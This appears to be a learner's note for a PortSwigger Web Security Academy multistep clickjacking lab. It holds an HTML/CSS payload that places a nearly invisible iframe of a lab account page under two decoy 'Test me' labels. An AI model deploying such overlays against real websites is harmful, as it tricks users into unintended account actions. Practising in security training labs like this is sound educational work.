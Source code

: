 #portswigger

TODO: try to submit later

https://portswigger.net/web-security/learning-paths/clickjacking/clickjacking-multistep-clickjacking/clickjacking/lab-multistep#

<style>
	iframe {
		position:relative;
		width:width: 1000px;
		height: 666px;
		opacity: 0.00001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:512px;
		left:45px;
		z-index: 1;
	}
   .secondClick {
		top:311px;
		left:206px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0a41008803eacb21da66bf32004c0092.web-security-academy.net/my-account"></iframe>

